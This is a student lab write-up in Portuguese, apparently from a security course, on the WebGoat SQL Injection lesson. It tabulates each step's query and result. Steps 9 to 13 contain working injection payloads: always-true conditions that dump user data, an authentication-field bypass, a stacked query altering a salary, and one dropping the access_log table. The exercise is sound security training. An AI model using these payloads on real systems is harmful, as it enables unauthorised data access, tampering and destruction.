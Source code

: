 # Pergunta 1 - *Injection*

Todas as imagens e outros ficheiros considerados relevantes para o entendimento complementar da resolução a todas as questões encontram-se listados na secção de [**Notas/Observações Finais**](#notasobservações-finais).

1. [**Pergunta  1.1**](#) - ***SQL Injection***
	- Entendimento básico de como o *SQL* é/pode ser usado e para quê
	- Entendimento do que são *SQL Injections* e como funcionam

---

## Resolução da Pergunta 1

### Experiência 1.1 -*SQL Injection*

Através da *lesson* dada pelo WebGoat, conseguimos executar e consequentemente entender como funciona toda uma *SQL Injection*.

<br/>

**Com todo os passos resolvíveis feitos (começando-se no dois, conforma a *lesson* o indica) e compreendidos, detalham-se os mesmos na tabela que se segue:**

| Número do Passo | *Querie* Usada                                               | Funcionalidade                                               | Resultado                                                    |
| --------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Passo 2**     | `select department from employees where userid = 96134`      | Seleciona o departamento do trabalhador cujo id é 96134.     | Marketing.                                                   |
| **Passo 3**     | `update employees set department = 'Sales' where first_name = 'Tobi Barnett'` | Altera o departamento de Toni Barnett para *Sales*.          | O departamento de Toni Barnett é atualizado com sucesso.     |
| **Passo 4**     | `alter table employees add phone varchar(20)`                | Adiciona a coluna *phone* à tabela de *employees*.           | A coluna *phone* é adicionada com sucesso.                   |
| **Passo 5**     | `GRANT ALTER TABLE TO 'UnauthorizedUser'`                    | Fornece permissões  ao *user group* "UnauthorizedUser" de alterar tabelas. | O acesso é concedido com sucesso.                            |
| **Passo 9**     | `SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'` | Cria uma consulta dinâmica através da concatenação de *strings*, tornando-a suscetível a uma *SQL Injection*. | A *SQL Injection* funcionará sempre dado que `'1' = '1'` é uma condição sempre verdadeira. Dessa forma, é devolvida todos os dados da `user_data`. |
| **Passo 10**    | `SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1` | Cria uma consulta dinâmica através da concatenação de *strings*, tornando-a suscetível a uma *SQL Injection*. | Dado que o campo `userid` espera receber um número/inteiro, não existem as tais "plicas" à volta deste campo.  Dessa forma ao introduzir-se `1 or 1 = 1`, obtêm-se todos os dados da `user_data`. |
| **Passo 11**    | `' OR '1' = '1` no campo *Authentication TAN*                | Seleciona todos os *employees* que acabam por verificar aquele campo de *Authentication*. | *"You have succeeded!You have successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!"* <br />A informação obtida diz respeito até aos salários dos trabalhadores. |
| **Passo 12**    | `'; update employees set salary = 120000 where auth_tan = '3SL99A` | Altera o valor do salário para o John Smith cujo TAN é 3SL99A. | Com os primeiros caracteres termina-se a *query*.<br />Logo de seguida, encadeia-se uma outra que altera assim o valor do salário com sucesso. |
| **Passo 13**    | `';drop table access_log; select * from access_log where action ='` | Elimina a tabela `acess_log`.                                | *"Success! You successfully deleted the access_log table and that way compromised the availability of the data."*<br />Ou seja, toda a tabela em causa acaba por ser eliminada. |



---

## Notas/Observações Finais

Não existem observações finais para este Trabalho Prático.